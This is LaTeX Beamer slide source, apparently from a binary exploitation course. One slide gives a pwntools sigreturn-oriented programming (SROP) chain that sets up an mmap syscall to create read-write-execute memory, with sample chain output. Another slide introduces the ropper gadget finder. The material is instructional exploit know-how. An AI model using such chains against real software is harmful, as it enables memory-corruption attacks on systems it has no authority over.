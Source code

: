 \documentclass[aspectratio=169]{beamer}
\newcommand{\docl}[1]{(\textbf{\href{#1}{Documentation}})}
\begin{document}
{\begin{frame}[fragile]
\end{frame}

\begin{frame}[fragile]
    \frametitle{Example SROP}
\begin{codebox}{python}
# setup rop, so that rax = constants.SYS_rt_sigreturn before here
rop.call(syscall_ret_gadget) # execute rt_sigreturn
frame = SigreturnFrame() # frame to create RWX memory
frame.rax = constants.SYS_mmap
frame.rdi = 0x100000 # address
frame.rsi = 0x1000 # size
frame.rdx = constants.eval("PROT_READ | PROT_WRITE | PROT_EXEC") # RWX
frame.rip = syscall_ret_gadget
frame.rsp = 0x100000 # does not work here!
rop.raw(frame)
log.info("Chain: %
# [+] Chain: 0x0000:         0x400000 0x400000()
# 0x0008:              0xf SYS_rt_sigreturn
# 0x0010:         0x400010 0x400010()
# 0x0018:              0x0 uc_flags # start of frame
# ...
# 0x0108:              0x0 sigmask # end of frame\end{codebox}
\end{frame}

}

\section{ropper}
\begin{frame}[fragile]
    \frametitle{ropper \docl{https://github.com/sashs/Ropper\#usage}}
    \begin{itemize}
        \item pwntools often fails at finding gadgets
        \item ropper can help, provides a nice overview of all gadgets
        \item can also search specific gadgets for you
        \item preinstalled on the virtual machines
        \item run  to dump a list of found gadgets
    \end{itemize}
\end{frame}
\end{document}
